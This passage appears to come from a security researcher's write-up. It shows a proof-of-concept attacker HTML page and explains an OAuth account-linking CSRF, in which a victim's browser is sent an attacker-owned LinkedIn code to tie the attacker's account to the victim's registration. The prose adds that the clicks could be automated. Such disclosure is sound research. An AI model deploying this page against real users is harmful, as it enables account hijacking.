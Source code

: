 
```html
<html>

<body>
  <h1>ATTACKER SITE</h1>
  <button onclick="myFunction1 () ">Get a JSESSIONID valid</button>
  <button onclick="myFunction2 () ">Link the attacker's account to the victim's registration</button>
  <script>
    function sleep(milliseconds) {
      var start = new Date().getTime();
      for (var i 0; i < 1e7; i++) {
        if ((new Date().getTime() - start) > milliseconds) {
          break;
        }
      }
    }

    function myFunction1() {
      window.open(
        "https://home.domain_B.nl/<path>/importProfile?method=linkedin&token=<id_client>&doValidation=true&redirectonError=https%3A%2F%2Fextranet.<domain_A>.it%2F<path>&postProfileUrl=https%3A%2F%2Fextranet.<domain_A>.it%2FC<path>&postoriginalDocument=true",
        "_blank", "toolbar=yes,scrollbars=yes, resizable=yes, top=5,left=50,width=40, height=40");
      sleep(4000);
      // This fuction is needed to get a valid session in the Domain_B context.
    }

    function myFunction2() {
      document.location =
        "htts://home.<Domain_B>.nl/<path>/importLinkedInProfile?code=XXX&state=TGlu______________3JldA"
      sleep(4000);
    }
```
{: file="malicious_website.html" }

In order to make the attack succeed, the myFunction1() function is needed to
get a valid session, otherwise, the second request to /\<path\>/importLinkedProfile?code=XXX&state=XXX fails.
Once the malicious page is loaded, the first function should be run: for this PoC I have implemented two buttons to perform the two functions, but in a real scenario the action of clicking can be made via Javascript without any user interaction.
The second function is critical: as you can see, it is a redirection to home.domain_B.nl with two important parameters passed:

- `code`: this parameter represents the OAuth code related to the account signed in. To link the attacker’s account to the victim’s session this code must belong to the attacker. To get it I have followed these steps: as the attacker, I used my LinkedIn test account as I was doing the registration in the page of domain_A, but I dropped the request on Burp Suite once I got the code parameter (the figure below shows the request with the code):

